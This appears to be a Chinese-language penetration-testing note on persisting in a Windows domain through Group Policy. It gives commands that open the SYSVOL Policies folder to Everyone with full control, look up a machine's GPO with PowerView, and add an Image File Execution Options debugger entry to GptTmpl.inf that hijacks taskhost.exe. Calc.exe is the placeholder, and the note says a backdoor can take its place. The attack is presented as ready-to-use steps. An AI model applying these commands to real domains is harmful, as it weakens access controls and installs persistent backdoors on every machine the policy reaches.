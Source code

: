	域的组策略和脚本存放在域控机的C:\Windows\SYSVOL\sysvol\zone.com\Policies目录，域内机器定时访问以更新策略
	域控机设置policies为everyone完全控制
	>cacls C:\Windows\SYSVOL\sysvol\zone.com\Policies /e /t /c /g "EveryOne":f
![image](/assets/Pentest_Note/master/img/548.png)

	使用powerview查询域内机对应策略文件
	PS> Get-NETGPO -ComputerName sub2k8.zone.com |fl gpcfilesyspath
	打开C:\Windows\SYSVOL\sysvol\zone.com\Policies\{id}\MACHINE\Microsoft\Windows NT\SecEdit\GptTmpl.inf末尾添加
	[Registry Values] MACHINE\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\taskhost.exe\Debugger=1,c:\windows\system32\calc.exe [Version] signature="$CHICAGO$" Revision=1
	手动刷新策略
	>gpupdate /force
	劫持taskhost.exe，可替换c:\windows\system32\calc.exe为后门文件或语句。